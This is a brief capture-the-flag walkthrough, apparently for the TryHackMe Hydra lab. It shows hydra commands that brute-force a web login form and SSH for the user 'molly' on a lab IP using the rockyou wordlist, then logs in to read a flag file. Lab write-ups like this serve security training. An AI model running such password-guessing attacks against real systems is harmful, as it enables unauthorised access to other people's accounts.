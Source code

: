 # Thm-hydra
walktrough

<h5> Step 1 : </h5>
  <p>check whether hydra is installed or not   </p>

`` hydra --version or hydra --v `` 

<h5>Step 2: </h5>
  <p>locate your  wordlists like passlist.txt  or rockyou.txt files </p>
  <p> usually wordlists are in <b> /usr/share/wordlists  </b> </p>
  
  <h5> Step 3 :</h5>
  use hydra , here you'll get the first flag
  
  ```$hydra -l molly -P rockyou.txt.gz 10.10.177.58 http-post-form "/login:username=^USER^&password=^PASS^:incorrect" -f ```

you will ge username and password for the hydra website
login and capture the first flag
  
 ![1677352773538](https://user-images.githubusercontent.com/89000059/221361623-ca5201fe-69c9-42ca-8c23-d006d6504f9b.png)

  
  <h5> Step 4 : </h5>
  
  for 2nd flag you should get ssh connection 
  

``` hydra -l molly -P rockyou.txt.gz 10.10.177.58 ssh ```

you will get a username and password for ssh port

<h5> Step 5 : </h5>
Login to ssh port 

``` ssh molly@10.10.177.58 ```
-> it will ask for password 
->enter the password you got in the step 4 


<h5>Step 6 : </h5>

```ls```


![flag 2](https://user-images.githubusercontent.com/89000059/221361487-47f20586-9ac2-4810-989f-4cdd0da72cfb.png)


<h5>Step 7:</h5>


``` cat flag2.txt```








